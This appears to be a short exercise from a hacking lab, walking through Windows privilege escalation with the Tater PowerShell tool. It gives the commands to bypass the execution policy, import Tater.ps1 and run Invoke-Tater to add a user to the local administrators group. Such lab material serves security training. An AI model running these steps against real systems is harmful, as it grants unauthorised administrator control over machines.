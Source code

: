 **Exploitation**

Windows VM

1. In command prompt type: 
   
```
powershell.exe -nop -ep bypass
```
  
2. In Power Shell prompt type: Import-Module** 
   
```
C:\Users\User\Desktop\Tools\Tater\Tater.ps1
```

3. In Power Shell prompt type: 
   
```
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

4. To confirm that the attack was successful, in Power Shell prompt type: 
   
```
net localgroup administrators
```

Answer the questions below

Click 'Completed' once you have successfully elevated the machine